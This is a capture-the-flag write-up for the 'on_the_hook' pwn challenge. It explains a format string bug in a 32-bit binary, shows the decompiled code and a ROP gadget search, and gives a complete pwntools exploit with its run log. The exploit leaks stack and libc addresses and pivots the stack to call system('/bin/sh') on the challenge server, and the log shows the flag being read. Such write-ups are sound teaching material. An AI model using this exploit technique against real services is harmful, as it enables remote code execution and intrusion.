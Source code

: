 ## on_the_hook

> Points: 461
>
> Solves: 22

### Description:
Captain Malloc lost his hook find it and than grab a shell for your effort.

nc ctf.k3rn3l4rmy.com 2201

### Attachments:
```
https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/on_the_hook

https://ctf.k3rn3l4rmy.com/kernelctf-distribution-challs/on_the_hook/libc.so.6
```

## Analysis:

This binary is clearly vulnerable to FSB (Format String Bug). The binary uses a while Loop, so we can use the FSB 5 times.
However, because it is Full Relro, GOT overwrite cannot be performed, and the main function ends with exit (0), so the return address of the main function cannot be changed.


```c
$ ./on_the_hook 
echo:
AAAA,%p,%p,%p,%p,%p,%p,%p,%p
AAAA,0x40,0xf7fa65a0,0x8049292,(nil),0xffffd223,0x1,0x41414141,0x2c70252c     <---- FSB
```

```c
$ checksec on_the_hook
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO         <--- Full Relro
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Below is the decompiled result by Ghidra.
```c
void main(void)

{
  int in_GS_OFFSET;
  EVP_PKEY_CTX *in_stack_ffffffa0;
  int local_58;
  char local_54 [64];
  undefined4 local_14;
  undefined *puStack16;
  
  puStack16 = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  init(in_stack_ffffffa0);
  puts("echo:");
  local_58 = 1;
  while (local_58 < 6) {
    fgets(local_54,0x40,stdin);
    printf(local_54);                <------------ FSB
    local_58 = local_58 + 1;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```

## Solution:

Since Got overlay is not possible, I considered the following two methods, but I used the former method. See the code in `solve_malloc_hook.py` for the latter.

--Call system('/bin/sh') by Stack pivot by rewriting the return address of printf

--Launch `/bin/sh` by writing One gadget to __malloc_hook

The Exploit code has done the following steps:

(1) Leak the Stack address using FSB to identify the return address

(2) Libc address leak using FSB to identify the address of the system function

(3) Using the ROP gadget of "add esp, 0x100; ret", write the address of the system function to the stack of the address where the return address to the main function is written + 0x104 bytes.

(4) As in (3), write the address of `/bin/sh` to the stack of the address where the return address to the main function is written + 0x10c bytes.

(5) Rewrite the return address that returns from printf to the main function to the address of "add esp, 0x100; ret".

When returning from printf to the main function in the above procedure, system ('/ bin / sh') can be started after "add esp, 0x100; ret".


The address of Stack pivot is obtained below.
```bash
$ ropper -f /lib/i386-linux-gnu/libc-2.23.so --nocolor > rop_l.txt
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ grep ": add esp" rop_l.txt 
...
0x00076a71: add esp, 0x100; ret;
...
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='i386')
#context.log_level = 'debug'

BINARY = './on_the_hook'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "ctf.k3rn3l4rmy.com"
  PORT = 2201
  s = remote(HOST, PORT)
  libc = ELF("./libc.so.6")
  stack_pivot = 0x00076991 # add esp, 0x100; ret;  
else:
  s = process(BINARY)
  libc = elf.libc
  stack_pivot = 0x00076a71 # add esp, 0x100; ret; 
  #s = process(BINARY, env={'LD_PRELOAD': './libc.so.6'})
  #libc = ELF("./libc.so.6")
  #stack_pivot = 0x00076991 # add esp, 0x100; ret;  

index = 7

# Lead stack address
s.sendline("%21$p")
s.recvuntil("echo:\n")
stack_leak  = int(s.recvuntil('\n'), 16)
target_addr = stack_leak - 0x118
print("stack_leak  =", hex(stack_leak))
print("target_addr =", hex(target_addr))

# Leak libc address
s.sendline(p32(elf.got.setvbuf) + b"%7$s")
s.recv(4)
setvbuf     = u32(s.recv(4))
libc_base   = setvbuf - libc.sym.setvbuf
system_addr = libc_base + libc.sym.system
binsh_addr  = libc_base + next(libc.search(b'/bin/sh'))

print("setvbuf     =", hex(setvbuf))
print("libc_base   =", hex(libc_base))

# Write system address in stack
writes = {target_addr + 0x104: system_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Write /bin/sh address in stack
writes = {target_addr + 0x10c: binsh_addr}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

# Stack pivot(add esp, 0x100; ret;) and Start /bin/sh
writes = {target_addr: libc_base + stack_pivot}
buf = fmtstr_payload(index, writes, write_size='short')
s.sendline(buf)

s.interactive()

```

## Results:
```bash
mito@ubuntu:~/CTF/K3RN3LCTF/Pwn_on_the_hook$ python3 solve_stack_pivot.py r
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/on_the_hook'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2201: Done
[*] '/home/mito/CTF/K3RN3LCTF/Pwn_on_the_hook/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
solve.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.sendline("%21$p")
solve.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.recvuntil("echo:\n")
solve.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  stack_leak  = int(s.recvuntil('\n'), 16)
stack_leak  = 0xff825894
target_addr = 0xff82577c
setvbuf     = 0xf7e24360
libc_base   = 0xf7dc4000
[*] Paused (press any to continue)
[*] Switching to interactive mode
...
$ id
uid=1000 gid=1000 groups=1000
$ ls -l
total 1920
-rw-rw-r-- 1 nobody nogroup      46 Nov 11 02:58 flag.txt
-rwxrwxr-x 1 nobody nogroup  147688 Nov 11 02:58 ld-2.23.so
-rwxrwxr-x 1 nobody nogroup 1786484 Nov 11 02:58 libc.so.6
-rwxrwxr-x 1 nobody nogroup   19672 Nov 11 22:59 run
$ cat flag.txt
flag{m4l1oc_h0ok_4nd_0n3_g4d9et_3a5y_a5_7h4t}

```

## Reference:

